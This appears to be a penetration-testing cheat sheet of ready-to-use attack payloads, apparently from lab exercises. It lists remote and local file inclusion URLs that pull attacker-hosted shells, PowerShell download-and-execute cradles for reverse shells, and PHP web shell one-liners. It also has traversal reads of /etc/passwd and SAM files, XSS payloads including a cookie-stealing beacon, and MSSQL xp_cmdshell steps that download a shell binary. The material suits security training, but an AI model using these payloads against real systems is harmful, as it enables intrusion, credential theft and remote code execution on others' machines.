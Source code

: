 // REMOTE FILE INCLUSION (RFI)
# echo "<?php echo shell_exec($_GET(['cmd'])?>" > evil.txt
http://<IP>/action=/inc/config.php?basePath=http://<ATTACKER-IP>/shell.php%00
http://10.11.1.8/internal/advanced_comment_system/index.php?ACS_path=http://<ATTACKER-IP>:<PORT>/test.txt%00 
http://10.11.1.35/section.php?page=http://<ATTACKER-IP>:<PORT>/evil.txt&c=<COMMAND>
http://10.11.1.50:9505/?search=%00{.exec|C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://<ATTACKER-IP>:<PORT>/shell.bat').}
http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php?slogin_path=http://<ATTACKER-IP>:<PORT>/shell.txt?
http://192.168.131.10/menu.php?file=http:\\<ATTACKER-IP>:<PORT>\evil.txt?cmd=powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http:\\<ATTACKER-IP>:<PORT>\reverse-shell.bat'))"
http://192.168.131.10/menu.php?file=data:text/plain,<?php system($_GET['cmd']);?>"&cmd=powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://<ATTACKER-IP>:<PORT>/revshell.bat'))"

// LOCAL FILE INCLUSION (LFI) & DIRECTORY TRAVERSAL
http://<IP>/browse.php?p=source&file=../../../etc/passwd
wget http://<IP>/..%5C..%5C..%5CWindows%5CSystem32%5Cconfig%5CRegback%5CSAM.OLD
http://192.168.131.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http:\\<ATTACKER-IP>:<PORT>\reverse-shell.bat'))"
https://10.2.2.86/browse.php?p=source&file=C:\xampp\apache\logs\access.log
http://10.11.1.35/section.php?page=/etc/passwd
http://10.11.1.73:8080/PHP/fileManager/fileManager/collectives/DG0/NewAccess/shell2.php?cmd=powershell -c .\shell.exe
http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=/usr/local/databases/hack.php
http://10.11.1.141:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/etc/passwd
curl -l http://10.11.1.11/uploads/shell.php?cmd=whoami

// WEB & EMAIL SCRAPING
cewl http://10.11.1.39/otrs/index.pl -m 4 -w wordlist.txt
mentalist 
theHarvester -d megacorpone.com -b all

// XSS
<script>alert("XSS")</script>
<iframe src='http://<ATTACKER-IP>:<PORT>/ height="0" width="0"></iframe>
<script>new Image().src="http://<ATTACKER-IP>:<PORT>/cool.jpg?output="+document.cookie;</script>
<body onload=alert('XSS')>
<script src="<ATTACKER IP>:<PORT>"></script>

// DRUPAL
droopscan
drupwn

// MSSQL (:1433/tcp) - PROBING & EXPLOITATION
sqsh -S <IP> -U '<user>' -P '<password>'
EXEC sp_configure 'show advanced options',1
go
RECONFIGURE
go
EXEC sp_configure 'xp_cmdshell',1
go
RECONFIGURE
go
xp_cmdshell '<command>'; go;
EXEC xp_cmdshell ‘powershell -c “wget <ATTACKER-IP>/shell.exe -usebasicparsing -o shell.exe”'
nmap -p <PORT> --script ms-sql-xp-cmdshell --script-args mssql.username=<USER>,mssql.password=<PASSWORD>,ms-sql-xp-cmdshell.cmd="<command>" <IP>
